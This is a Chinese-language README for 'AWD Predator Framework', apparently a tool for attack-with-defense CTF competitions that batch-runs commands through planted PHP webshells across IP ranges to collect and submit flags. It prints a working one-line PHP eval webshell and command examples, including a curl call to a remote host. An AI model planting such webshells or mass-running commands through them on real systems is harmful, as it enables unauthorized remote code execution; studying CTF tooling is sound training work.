 AWD Predator Framework v1.0                   

              --code by AresX       
			  

在AWD攻防赛中通过给定的webshell批量获取提交flag

## webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`

example:`add x.x.x.x:8001://index/cmd.php cmd eval post`

命令执行后webshell的路径和密码会以字典的形式储存

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令


## iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: 'ip x.x.x.x'

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

## flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 提交flag


*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`



			  
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|
